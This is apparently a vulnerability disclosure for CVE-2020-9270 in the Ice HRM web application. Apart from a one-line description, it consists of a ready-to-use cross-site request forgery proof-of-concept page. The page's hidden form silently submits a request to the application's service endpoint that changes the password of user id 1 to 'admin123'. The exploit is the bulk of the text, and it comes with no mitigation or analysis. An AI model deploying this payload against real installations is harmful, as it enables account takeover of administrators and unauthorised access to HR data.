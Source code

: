 The Ice HRM web application is vulnerable to CSRF to change the password of an arbitrary user:

CVE-2020-9270

CSRF POC:
````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://HOSTHERE/icehrm/app/service.php">

      <input type="hidden" name="t" value="User" />

      <input type="hidden" name="a" value="ca" />

      <input type="hidden" name="sa" value="changePassword" />

      <input type="hidden" name="mod" value="admin&#61;users" />

      <input type="hidden" name="req" value="&#123;&quot;id&quot;&#58;1&#44;&quot;pwd&quot;&#58;&quot;admin123&quot;&#125;" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>


````
